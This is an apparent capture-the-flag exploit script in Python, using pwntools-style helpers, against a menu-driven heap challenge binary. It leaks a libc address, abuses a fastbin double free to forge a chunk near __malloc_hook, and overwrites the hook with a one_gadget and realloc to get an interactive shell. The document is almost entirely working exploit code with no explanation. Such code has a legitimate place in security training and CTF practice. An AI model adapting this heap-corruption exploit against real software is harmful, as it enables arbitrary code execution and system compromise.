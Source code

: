 ```python

def malloc(index,size,content):
        ru("Your Choice")
        sl('1')
        ru("index>> ")
        sl(str(index))
        ru("size>> ")
        sl(str(size))
        ru("name>> ")
        sd(content)
def free(index):
        ru("Your Choice")
        sl('2')
        ru("index>> ")
        sl(str(index))
def edit(index,content):
        ru("Your Choice")
        sl('3')
        ru("index>> ")
        sl(str(index))
        ru("name>> ")
        sd(content)
def show(index):
        ru("Your Choice")
        sl('5')
        ru("index>> ")
        sl(str(index))

malloc(0,0x100,'aaaa')
malloc(1,0x68,'bbbb')
malloc(2,0x68,'bbbb')
malloc(3,0x78,'bbbb')
malloc(4,0x100,'a')
malloc(5,0x100,'a')
free(0)
show(0)
addr = u64(rc(6).ljust(8,'\x00'))-0x3c4b78
print "addr--->"+hex(addr)
malloc_hook = addr + libc.sym["__malloc_hook"]
fake_chunk = malloc_hook-0x23
onegadget = addr + 0x4527a
realloc = addr + libc.sym['realloc']
print "fake_chunk--->" + hex(fake_chunk)
print "onegadget--->" + hex(onegadget)
print "realloc--->" + hex(realloc)

free(1)
free(2)
free(1)
free(4)
malloc(6,0x68,p64(fake_chunk))
malloc(7,0x68,p64(fake_chunk))
malloc(8,0x68,p64(fake_chunk))
malloc(9,0x68,'a'*11+p64(onegadget)+p64(realloc))
ru("Your Choice")
sl('1')
ru("index>> ")
sl(str(10))
ru("size>> ")
p.interactive()

```
